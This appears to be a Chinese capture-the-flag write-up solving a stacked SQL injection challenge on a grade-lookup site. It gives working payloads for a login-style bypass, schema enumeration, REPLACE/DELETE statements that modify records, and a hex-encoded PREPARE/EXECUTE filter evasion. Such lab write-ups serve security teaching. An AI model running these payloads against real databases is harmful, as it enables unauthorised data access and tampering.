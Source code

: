 #Week3 multiSQL 200



### 0、知识点与工具

>   sql注入

>   堆叠注入





### 1、分析页面

>   首先整个网页有俩个页面，分别是index.php与verify.php，
>
>   主页那边需要一个传入一个参数，然后下面就会显示分数

>   首先使用万能钥匙查询一下
>
>   ```
>   admin' or '1'='1
>   ```
>
>   

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120105036.png)

>   发现整个表中好像只要一位同学有成绩

>   这时可以想起题目页面有提示信息，提示信息为堆叠注入，那么我们就阔以获取一些信息

### 2、注入

>   首先爆库
>
>   ```
>   1';show databases;
>   ```
>
>   

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120105549.png)

>   在看一下English的表
>
>   ```
>   1';show tables from english;
>   ```
>
>   

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120105731.png)

>   再接着爆字段
>
>   ```
>   1';show columns from score;
>   ```
>
>   

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120110049.png)

### 3、更改数据

>   再回想起题目的另一个提示，update的更改，那么flag一个是在verify页面中，然后咋们要让成绩总分大于425分

>   然后使用堆叠注入修改成绩会发现存在过滤，过滤了update
>
>   ```
>   1';update english set listen=100 where username='火华';
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202211201220894.png)

>   后面继续测试会发现，还过滤了：**select、insert、union**

>   虽然过滤insert，但是insert有替换的关键字 -> replace
>
>   那么就阔以使用replace插入一条总分超过425分的数据，然后把原来的那一条数据给删除掉
>
>   ```java
>   1';replace into score values("火华",2000,200,200);#
>   1';delete from score where listen=11;#
>   
>   ```
>
>   然后点击验证成绩就可以获得flag



![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120123253.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120123143.png)

>    flag{Ju3t_use_mo2e_t2en_0ne_SQL}

### 4、扩展

使用十六进制替换成绩

```
username=1';set @a=update score set listen = 1000 where username = '火华';prepare b from @a;execute b;#
转十六进制后
username=1';set @a = 0x7570646174652073636f726520736574206c697374656e203d2031303020776865726520757365726e616d65203d2027e781abe58d8e273b;prepare b from @a;execute b;#

```

